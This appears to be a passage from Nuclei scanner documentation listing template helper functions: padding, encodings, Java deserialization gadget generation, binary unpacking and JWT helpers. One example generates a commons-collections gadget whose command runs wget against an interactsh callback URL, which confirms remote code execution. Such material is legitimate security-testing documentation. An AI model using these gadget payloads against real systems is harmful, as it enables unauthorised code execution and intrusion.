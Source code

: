 | padding(input string, padding string,length int) string               | Adds padding char to input string until it reaches desired length                              					  | `padding("A","b",3)`                                                                                                                          | `Abb`                                                                                                                                                                                                                                                                                                                                                                               |

**Supported encodings:**

- `base64` (default)
- `gzip-base64`
- `gzip`
- `hex`
- `raw`

**Deserialization helper function format:**

```yaml
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```yaml
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```

**Binary pack/unpack**

The gostruct package provides functionality for converting Go values represented as byte slices. It uses format strings to describe the layout of the Go structs. The format characters include boolean, big endian, little endian, int, float32, float64, and string types with different packed sizes. Currently, only binary unpack of the first operand after endianess has been supported.

#### JSON helper functions

Nuclei allows manipulate JSON strings in different ways, here is a list of its functions:

- `generate_jwt`, to generates a JSON Web Token (JWT) using the claims provided in a JSON string, the signature, and the specified algorithm.
- `json_minify`, to minifies a JSON string by removing unnecessary whitespace.
- `json_prettify`, to prettifies a JSON string by adding indentation.

**Examples**

**`generate_jwt`**

To generate a JSON Web Token (JWT), you have to supply the JSON that you want to sign, _at least_.

Here is a list of supported algorithms for generating JWTs with `generate_jwt` function _(case-insensitive)_:

- `HS256`
- `HS384`
- `HS512`
- `RS256`
- `RS384`
- `RS512`
- `PS256`
- `PS384`
- `PS512`
- `ES256`
- `ES384`
- `ES512`
- `EdDSA`
- `NONE`
